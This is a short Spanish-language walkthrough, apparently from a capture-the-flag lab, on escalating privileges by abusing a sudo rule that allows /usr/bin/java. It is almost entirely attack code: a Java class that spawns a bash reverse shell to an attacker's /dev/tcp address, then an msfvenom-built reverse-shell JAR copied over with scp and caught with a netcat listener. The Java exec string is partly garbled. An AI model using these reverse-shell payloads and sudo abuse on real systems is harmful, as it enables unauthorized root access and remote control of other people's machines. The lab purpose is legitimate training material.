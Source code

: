 
Forma 1:

creamos un archivo java en tmp:

touch exploit.java
lo abrimos con nano:

public class shell {
   public static void main(String[] args) {
       Process p;
       try {
           p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/IP-KALI/port-netcat 0>&1");
           p.waitFor();
           p.destroy();
       } catch (Exception e) {}
   }
}

sudo /usr/bin/java exploit.java

previamente nos ponemos en escucha en el puerto de netcat elegido y listo somos root !!!


Forma 2:

User augustus may run the following commands on 0acc3e139d70:
    (dylan) /usr/bin/java

2.1-Con msfvenom en nuestro kali, creamos un archivo .jar

msfvenom -p java/shell_reverse_tcp 192.168.0.26 4444 -f jar -o revshell.jar

2.2- Le damos permisos

chmod +x revshell.jar

2.3- Lo enviamos a la máquina víctima con scp

enviar desde kali a la máquina víctima
scp revshell.jar augustus@172.17.0.2:/tmp/revshell.jar

o

inicar un servidor con python y con wget o con curl enviarlo a la máquina víctima

augustus@172.17.0.2's password:
revshell.jar

2.4- En la máquina atacante con netcat

nc -nlvp 4444
listening on [any] 4444 ...

2.5- En la máquina víctima

augustus@62c2a83e112d:/tmp$ sudo -u dylan /usr/bin/java -jar /tmp/revshell.jar


2.6- Obteniendo conexión en la máquina atacante
